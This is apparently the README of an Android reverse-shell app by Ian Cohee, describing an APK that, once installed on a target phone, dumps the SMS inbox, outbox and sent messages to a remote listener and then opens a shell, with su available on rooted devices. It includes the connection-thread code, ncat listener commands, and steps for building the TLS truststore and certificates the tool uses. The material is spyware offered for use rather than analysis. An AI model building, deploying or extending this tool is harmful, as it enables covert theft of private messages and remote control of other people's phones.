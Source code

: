 Droid Reverse Shell
===================
Ian Cohee 
---------------------

A small, very basic reverse shell for the Android mobile operating system. The code can be compiled into an APK package, that must be installed
on the target device. The application will dump the SMS contents of the device inbox, outbox, and sent mail, then drop into the shell. The resulting shell will be unprivileged, unless the target phone is rooted, then the command "su" can be used. In that case, the user still needs to manually give the application permission to "su" to UID 0. 

Secured vs. Unsecured Shell
--------------------------
By default, the connection is made using a 'SecureConnectionThread,' but can be changed to use a 'ConnectionThread' instead, for cleartext, yet faster, transfer of data.
Secure

    // UI cannot do networking stuff on its own, it needs
    // a separate thread. 
    new SecureConnectionThread().execute(host, port);


Insecure

    // UI cannot do networking stuff on its own, it needs
    // a separate thread. 
    new ConnectionThread().execute(host, port);

Listener (default: secured)
--------
The program `ncat` should be used as a listener by default, for it's native support of SSL. I have included the PEM file containing the private key and certificate together (used by the listener) and a PEM file containing just the certificate, which was imported into the BKS keystore `android.truststore`.

    ncat --ssl --ssl-cert /path/to/Ncat_priv.pem --ssl-key /path/to/Ncat_priv.pem -l -p 7777 | tee server.out

Listener (unsecured)
--------
Still working on that (I'll have it when I get SSL or Symmetric key encryption added) in the mean time, a simple netcat-like listener works. I prefer to use Ncat, of the Nmap project. Since the application dumps SMS, I like to pipe them to `tee` to capture the results. The Listener will have logging, when I get to it. 

    ncat 192.168.2.3 7777 | tee server.out

Mini-tutorials
==============

Generating a TrustStore
-----------------------
    keytool -genkey -keystore android.truststore -alias android -storetype BKS -providerpath /path/to/bcprov-jdk15on-146.jar -provider org.bouncycastle.jce.provider.BouncyCastleProvider

Generating X509 Certificate
---------------------------
This file will contain the both the private key, and the certificate into a file called `cert.pem`.
    
    openssl req -newkey rsa:2048 -nodes -days 3650 -x509 -keyout cert.pem -out cert.pem

Then extract the everything between the `-----BEGIN_CERTIFICATE-----` and `-----END_CERTIFICATE-----` (inclusively) into a new file. Now This file needs to be added to the trust store that the application uses. 

Importing Certificate into TrustStore
-------------------------------------
    keytool -importcert -trustcacerts -keystore android.truststore -file cert.pem -storetype BKS -providerpath /path/to/bcprov-jdk15on-146.jar -provider org.bouncycastle.jce.provider.BouncyCastleProvider 

Adding Bouncy Castle to java.security File
------------------------------------------
Locate the correct security file, mine was a symlink in /usr

    locate java.security

Add an entry, where X is the next ordinal number to the java.security file
    
    security.provider.X=org.bouncycastle.jce.provider.BouncyCastleProvider
